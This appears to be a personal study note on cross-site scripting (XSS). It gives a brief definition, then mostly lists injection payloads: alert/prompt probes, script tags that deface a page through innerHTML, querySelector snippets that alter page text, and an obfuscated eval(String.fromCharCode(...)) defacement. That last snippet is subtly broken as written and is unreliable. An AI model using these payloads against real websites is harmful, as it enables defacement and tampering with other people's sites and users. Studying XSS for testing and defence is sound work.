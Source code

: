 # Definition and Exploitation
XSS (Cross Site Scripting) is a type of injection attack where-in an malicious user can insert script especially javascript on textarea and reflected to the his/her browser or other user's browser and execute the script injected.

To check for vulnerabilities and perform exploitation, input data and look where it reflected then insert script tag with alert to confirm you can insert any script you want:

```bash
<script>alert()</script>

	alternative for alert():
		prompt()
```

  
---------------------------------------------Deface a website-----------------------------------------
```bash
<script>document.body.innerHTML='(html elements/tag, values)'</script>
```



---------------------------------------------Change the content website-----------------------------------------
```bash

<script>document.querySelector('element_tag').textContent = 'sample text!'</script>

          - change the value of element depends on their tag but the first element will only take effect  
          

<script>document.querySelector('#element_id').textContent = 'sample text!'</script>

          - change the value of element depends on their id 


<script>document.querySelector('.element_class_name').textContent = 'sample text'</script>

          - change the value of element depends on their class name but the first element will only take effect


```
  
--------------------------------------------- Deface a website-----------------------------------------
```javascript

<script>
var ascii_value = "60 33 68 79 67 84 89 80 69 32 104 116 109 108 62 10 ";
document.body.innerHTML = eval(String.fromCharCode(ascii_value));
</script>



text to ascii converter
https://codebeautify.org/text-to-ascii



own script
C:\Users\Asus-pc\Desktop\Programming Language\Python\TextToASCII.py


```

---------------------------------------------------------------------------------------------------------------------------------------------

link youtube: [https://www.youtube.com/watch?v=u7wrKchcOGU](https://www.youtube.com/watch?v=u7wrKchcOGU)

  

  

  

  

XSS Auditor (anti-XSS)

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(22).png)

  

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(23).png)

  

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(24).png)

  

  

  

  

  

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(25).png)

  

  

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(26).png)

  

  

  

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(27).png)

  

  

![](file:///C:/Users/Asus-pc/AppData/Local/Temp/enhtmlclip/Image(28).png)
```
